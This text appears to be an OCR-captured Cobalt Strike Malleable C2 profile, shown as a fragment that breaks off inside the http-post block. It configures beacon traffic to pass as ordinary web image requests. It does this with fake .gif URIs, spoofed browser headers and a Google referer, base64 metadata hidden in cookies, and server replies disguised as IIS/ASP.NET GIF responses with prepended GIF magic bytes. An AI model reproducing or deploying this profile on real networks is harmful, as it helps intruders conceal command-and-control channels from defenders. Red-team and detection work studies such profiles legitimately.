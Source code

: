 }

http-get {
	set uri "/cat.gif /image /pixel.gif /logo.gif";

	client {
        	# customize client indicators
		header "Accept" "text/html,image/avif,image/webp,*/*";
		header "Accept-Language" "en-US,en;q=0.5";
		header "Accept-Encoding" "gzip, deflate";
		header "Referer" "https://www.google.com";

		parameter "utm" "ISO-8898-1";
		parameter "utc" "en-US";

		metadata{
			base64;
			header "Cookie";
		}
	}

	server {
		# customize server indicators
		header "Content-Type" "image/gif";
		header "Server" "Microsoft IIS/10.0";	
		header "X-Powered-By" "ASP.NET";	

		output{
			prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
      prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
      prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
			print;
		}
	}
}

http-post {
	set uri "/submit.aspx /finish.aspx";

	client {

		header "Content-Type" "application/octet-stream";
		header "Accept" "text/html,image/avif,image/webp,*/*";
		header "Accept-Language" "en-US,en;q=0.5";
		header "Accept-Encoding" "gzip, deflate";
		header "Referer" "https://www.google.com";
		
		id{
			parameter "id";
		}

		output{
			print;
		}
